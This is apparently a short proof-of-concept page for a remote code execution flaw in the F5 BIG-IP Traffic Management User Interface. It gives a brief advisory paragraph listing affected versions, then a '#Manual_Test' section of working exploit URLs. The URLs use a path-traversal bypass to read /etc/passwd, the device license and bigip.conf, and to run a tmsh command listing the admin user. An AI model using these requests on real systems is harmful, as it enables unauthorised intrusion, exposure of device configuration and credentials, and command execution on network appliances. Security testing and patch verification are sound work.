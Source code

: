 The Traffic Management User Interface (TMUI) present in F5 BIG-IP versions 15.0.0-15.1.0.3, 14.1.0-14.1.2.5, 13.1.0-13.1.3.3, 12.1.0-12.1.5.1, and 11.6.1-11.6.5.1 is vulnerable to a Remote Code Execution (RCE) vulnerability that allows unauthenticated attackers, or authenticated users, with network access to the TMUI, to execute arbitrary system commands, create or delete files, disable services, and/or execute arbitrary Java code.



Also You can send /hsqldb; as GET request and it show you


</head><body><h1>HSQL Database Engine Servlet</h1>
The servlet is running.<p>
The database is also running.<p>
Database name: mem:.<p>
Queries processed: 0<p>


#Manual_Test

https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/hosts
https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.license
https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.conf
https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin

